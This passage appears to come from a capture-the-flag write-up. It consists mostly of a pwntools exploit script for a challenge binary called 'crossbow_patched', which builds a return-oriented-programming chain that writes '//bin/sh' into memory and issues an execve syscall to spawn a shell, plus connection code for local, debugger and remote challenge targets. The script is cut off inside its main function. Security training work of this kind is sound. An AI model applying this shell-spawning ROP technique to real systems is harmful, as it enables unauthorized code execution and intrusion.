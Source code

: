 

### Full exploit

```python
#!/usr/bin/env python3

from pwn import *
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 7bf5f772c59b6cc7854de1212fa8c99ec9bf25e33a4b0cd6c251200852dd2c2b
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = b''

rop += rebase_0(0x0000000000001001) # 0x0000000000401001: pop rax; ret;
rop += b'//bin/sh'
rop += rebase_0(0x0000000000001d6c) # 0x0000000000401d6c: pop rdi; ret;
rop += rebase_0(0x000000000000e000)
rop += rebase_0(0x00000000000020f5) # 0x00000000004020f5: mov qword ptr [rdi], rax; ret;
rop += rebase_0(0x0000000000001001) # 0x0000000000401001: pop rax; ret;
rop += p(0x0000000000000000)
rop += rebase_0(0x0000000000001d6c) # 0x0000000000401d6c: pop rdi; ret;
rop += rebase_0(0x000000000000e008)
rop += rebase_0(0x00000000000020f5) # 0x00000000004020f5: mov qword ptr [rdi], rax; ret;
rop += rebase_0(0x0000000000001d6c) # 0x0000000000401d6c: pop rdi; ret;
rop += rebase_0(0x000000000000e000)
rop += rebase_0(0x0000000000001001) # 0x0000000000401001: pop rax; ret;
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000004b51) # 0x0000000000404b51: syscall; ret;
print(rop)




e = ELF("crossbow_patched")

context.binary = e

def conn(cond):
    if cond == 1:
        r = process([e.path])
    elif cond == 2:
        r = gdb.debug([e.path], gdbscript="""
            b* target_dummy
            b* target_dummy+89
            b* target_dummy+430
            b* training+126
            c
            c
            """)
    elif cond == 3:
        r = remote("94.237.55.96", 58025)

    return r



def main():
    r = conn(2)
    print(hex(len(rop)))
```